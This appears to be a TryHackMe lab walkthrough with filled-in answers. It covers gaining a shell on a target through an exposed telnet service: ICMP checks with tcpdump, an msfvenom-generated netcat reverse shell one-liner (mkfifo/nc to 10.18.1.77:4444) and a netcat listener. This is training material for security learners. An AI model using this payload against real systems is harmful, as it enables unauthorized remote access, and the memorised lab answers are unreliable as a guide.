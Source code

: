 Start a tcpdump listener on your local machine.

If using your own machine with the OpenVPN connection, use:

    sudo tcpdump ip proto \\icmp -i tun0

If using the AttackBox, use:

    sudo tcpdump ip proto \\icmp -i eth0

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on. *No answer needed*

```
sudo tcpdump ip proto \\icmp -i tun0
```

```
.RUN ping 10.18.1.77 -c 1
```
Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N) *Y*

Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun! *No answer needed*

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:
"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.18.1.77 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 88 bytes
mkfifo /tmp/xoof; nc 10.18.1.77 4444 0</tmp/xoof | /bin/sh >/tmp/xoof 2>&1; rm /tmp/xoof
```
What word does the generated payload start with? *mkfifo*


Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:
"nc -lvp [listening port]"
What would the command look like for the listening port we selected in our payload?
*nc -lvp 4444*


Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!
`mkfifo /tmp/xoof; nc 10.18.1.77 4444 0</tmp/xoof | /bin/sh >/tmp/xoof 2>&1; rm /tmp/xoof`

```kali machine
nc -lvp 4444
```
